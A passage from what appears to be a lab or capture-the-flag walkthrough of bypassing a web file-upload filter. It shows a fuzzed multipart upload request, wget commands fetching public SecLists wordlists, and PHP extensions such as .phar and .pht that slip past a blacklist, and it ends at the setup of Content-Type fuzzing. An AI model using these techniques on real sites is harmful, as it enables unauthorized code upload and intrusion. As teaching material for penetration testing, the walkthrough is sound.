 **2. Extension Fuzzing Setup:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="test§.jpg§"
Content-Type: image/jpeg

[file content]
----boundary--
```

### Extension Discovery Results

**Testing Method:**
1. Clear default payload markers
2. Add payload marker: `§.jpg§`
3. Uncheck "URL-encode these characters"
4. Load PHP extensions wordlist
5. Execute attack

**Extensions Wordlist:**
```bash
# Download PHP extensions list
wget https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/web-extensions.txt
```

**Discovered Allowed Extensions:**
```
✅ .pht   - "Only images are allowed" (not "Extension not allowed")
✅ .phtm  - "Only images are allowed" 
✅ .phar  - "Only images are allowed"
✅ .pgif  - "Only images are allowed"
```

**Analysis:** These extensions bypass the blacklist but still trigger whitelist validation.

---

## Phase 3: Content-Type Bypass Discovery

### Content-Type Fuzzing

**Payload Position:**
```http
Content-Type: §image/jpeg§
```

**Wordlist Preparation:**
```bash
# Download content types list
wget https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/web-all-content-types.txt

# Filter for image types only
cat web-all-content-types.txt | grep 'image/' | xclip -se c
```
